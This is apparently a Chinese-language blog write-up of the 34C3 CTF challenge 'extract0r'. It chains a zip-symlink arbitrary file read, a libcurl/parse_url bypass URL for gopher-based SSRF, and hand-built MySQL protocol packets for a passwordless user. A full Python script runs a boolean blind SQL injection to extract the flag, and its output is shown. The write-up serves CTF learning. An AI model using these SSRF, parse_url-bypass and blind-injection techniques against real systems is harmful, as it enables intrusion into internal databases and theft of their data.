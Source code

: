 +++
date = 2022-09-27T15:38:53+08:00
title = "[补番]34c3 extrac0tr writeup"
description = ""
slug = ""
authors = []
tags = []
categories = []
externalLink = ""
series = []
+++
每个月定期补一些老题目，记录一下。这题算是老题新做吧，最后一步自己的小思路貌似在网上没有找到一样的，嘿嘿。

第一步，上传symlink，列目录读文件

题目通过url下载一个zip文件，然后解压到指定目录。通过上传一个打包了symlink文件的zip，解压后就可以用这个symlink遍历目录，实现任意文件读。

- 在/home/extract0r目录下发现flag位置，在mysql数据库里，并且发现数据库的`m4st3r_ov3rl0rd`用户有读flag表的权限，此用户没有设置密码
- 在/var/www/html目录下读到源码

> 知识点：linux下的symlink文件可以打包到zip里，解压后可以通过symlink文件进行目录遍历

> 障碍点：这里想着直接通过读取mysql数据库文件的方式拿flag，发现目录遍历没有遍历出mysql所在的目录。然后自己本地起一个mysql服务发现，mysql的目录默认对于非mysql用户和组的用户没有可读权限，想想这也是合理的。

第二步，通过源码得知题目用php自带的curl函数发起请求，底层调用libcurl的函数，libcurl这个库存在很多冗余写法，很容易绕过php的parse_url的过滤。这一步就考虑利用curl的gopher协议进行ssrf，其中绕过的payload如下

```
http://foo@[cafebeef.cf]:foo@github.com:3306/
```
> 知识点：libcurl非常宽松，有很多公开的和未公开的绕过姿势。

第三步， 内网只有本地一个mysql，只能考虑mysql的无交互ssrf。

原本的印象是mysql这种需要交互的协议无法ssrf，这题考点就是无密码的mysql也是可以ssrf的。

于是本地拉起一个mysql，设置一个无密码用户和flag表，进行一次查询flag的sql语句，用wireshark把包dump下来。

tips: mysql客户端指定ssl-mode可以强制mysql不使用tls通信

```
echo 'select flag from flag.flag;' | mysql -h 127.0.0.1 --ssl-mode=DISABLED -um4st3r_ov3rl0rd
```

wireshark打开如下

![image-20210922143329642](../../images/image-20210922143329642.png)

发现客户端发了4个包

- 第1次发送登录请求，服务端返回Response OK
- 由于需要登录的用户不需要密码，第2个包就直接发送sql指令过去了，没有challenge的过程

![image-20210922144430059](../../images/image-20210922144430059.png)

把这个payload构造一下然后利用ssrf发送给mysql就可以执行任意sql语句了。

![image-20210922150212267](../../images/image-20210922150212267.png)

看到github上一种解法是在sql语句的返回中构造一个合法的zip把flag的内容包含到一个文件中，然后借助题目的解包功能拿到flag，或者是时间盲注。但我觉得这两种都比较耗费时间。注意题目在判断curl返回后有很多逻辑，看了一下是可以根据这个逻辑进行盲注的。我们可以在sql的返回中插入一个zip文件流，这里可以插入一个空的zip文件

```bash
root@be498edb0379:/# xxd 1.zip
00000000: 504b 0506 0000 0000 0000 0000 0000 0000  PK..............
00000010: 0000 0000 0000                           ......
root@be498edb0379:/#
```

这样根据代码逻辑，检测到zip，就正常返回，没有检测到zip，就输出`Archive's size 0 not supported`，这样就可以进行逻辑盲注。下面的图片有错误，一个空的zip文件的完整十六进制表示是`504b0506000000000000000000000000000000000000`

![image-20210922153017772](../../images/image-20210922153017772.png)

## # payload

```python
#!/usr/bin/env python
# -*- coding=utf-8 -*-
import binascii
from urllib.parse import quote_plus

import requests


def build_payload(sql):
    auth_p = "ad00000185a2bf01000000010800000000000000000000000000000000000000000000006d34737433725f6f7633726c30726400006d7973716c5f6e61746976655f70617373776f72640065035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f70696404333630370f5f636c69656e745f76657273696f6e06352e372e3235095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c"
    sql_p = "{}00000003{}"
    close_p = "0100000001"

    l = hex(len(sql) + 1)[2:]
    sql = binascii.hexlify(sql.encode()).decode()
    sql_s = sql_p.format(l, sql) # wired bug
    payload = auth_p + sql_s + close_p
    payload = bytes.fromhex(payload)
    payload = quote_plus(payload).replace("+", "%20")

    host = "http://127.0.0.1:1342?url="
    cmd = "gopher://a@[cafebeef.cf]@google.com:3306/_" + payload
    cmd = quote_plus(cmd)
    return host + cmd

def main():
    flag = ""
    for k in range(1, 33):
        for i in range(32, 127):
            sql = 'select if((select ascii(substr((select flag from flag.flag),{},1)))={},unhex("504b0506000000000000000000000000000000000000"),2333)'.format(k, i)
            p = build_payload(sql)
            r = requests.get(p)
            # print(r.text)
            if 'Done' in r.text:
                flag += chr(i)
                print("[*] flag=" + flag)
                break

main()
```

```bash
...
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_S
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_SS
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_SSR
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_SSRF
```

> 知识点：zip协议扫描是从zip尾签名开始的，7z的实现遵循了zip协议，所以mysql协议开头的字符不影响zip文件的读取和解压。

> 障碍点：需要交互的服务无法ssrf的意思，本质是ssrf无法动态的构造服务交互所需要的数据包，而如果这种数据包是我们已知的，那么ssrf也可以对需要交互的服务进行攻击。




